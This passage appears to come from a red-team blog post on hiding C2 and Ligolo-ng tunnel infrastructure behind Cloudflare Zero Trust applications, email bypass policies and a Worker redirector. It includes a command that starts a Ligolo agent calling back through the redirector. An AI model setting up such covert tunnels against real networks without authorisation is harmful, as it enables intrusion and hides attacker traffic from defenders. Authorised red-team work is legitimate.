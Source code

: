 <img src="https://labs.jumpsec.com/wp-content/uploads/sites/2/2024/06/image1.png" width="200"/>

The Policy’s remaining settings can remain as they are when you are creating Policies for Ligolo or for a C2 so create two apps exactly as per above if only using a C2 and Ligolo. For access to files, it is useful to add a second bypass policy and I will explain why now.

If you create another app called ‘Files’ to allow access into your remote file server, we can restrict requests entering from only a specific IP, but we can also allow privileged users directly into the files tunnel who have a specific email address outside of that IP. This is for the occasions when a team may want to access their remote VM files but don’t want to keep adding multiple custom IPs to the Worker or don’t need command line access via wget, certutil etc.

<img src="https://labs.jumpsec.com/wp-content/uploads/sites/2/2024/06/image2.png" width="200"/>

To do this add another policy called ‘Email’ and add an ‘Include’ email selector at the bottom and enter a specific email address or if you are working in a team you may want to allow all email addresses that end in mycompany.com for example.

<img src="https://labs.jumpsec.com/wp-content/uploads/sites/2/2024/06/image3.png" width="200"/>

What happens then is, when you visit the files tunnel URL directly (https://files.yourdomain.com) therefore bypassing the IP checks of the Worker redirector you can still access it and you will be presented with this webpage as shown:

<img src="https://labs.jumpsec.com/wp-content/uploads/sites/2/2024/06/image5.png" width="200"/>

You can then enter your email address of john.doe@mycompany.com and if the email is valid as per the Policy, you will be emailed a code to get access through the tunnel.

<img src="https://labs.jumpsec.com/wp-content/uploads/sites/2/2024/06/image6.png" width="200"/>

You can then access your files like this via the browser for example which is quite useful.

<img src="https://labs.jumpsec.com/wp-content/uploads/sites/2/2024/06/image7.png" width="200"/>

At the end of this config process, you should now have a bunch of applications pointing to your tunnels as shown, kinda acting like gatekeepers to them via Policies, hence the zero-trust aspect:

<img src="https://labs.jumpsec.com/wp-content/uploads/sites/2/2024/06/image8.png" width="200"/>

So, if you are still with me that is now all we need to access our cloud infrastructure via Cloudflare. Just to summarise, this is now how it all becomes operational:

 - We update Cloudflare as I have shown to expect our custom header values.
 - We update Cloudflare to expect a custom IP should we want to grab files from a specific IP.
 - We can generate a C2\Ligolo agent with a custom header. Therefore, with the branched websockets version of Ligolo-ng as an example you can do the following:ligolosockets.exe -connect https://redirector.myname.&#8203;workers.dev:443 -ua MY-LIGOLO
 - We send all of our requests to the Worker redirector URL and not to the tunnels directly as the Worker will add the zero trust header values required to enter the tunnels. Accessing them directly will no longer work except for the email login to our file server.
 - The worker passes the request to the app sitting in front of the tunnels which then checks for the service auth token to make sure it matches.
 - If the service auth token matches, the request is directed to that specific tunnel. This then flows into the internal URL of our Cloud VM (which is specified in the tunnel config) to provide us with our connectivity.

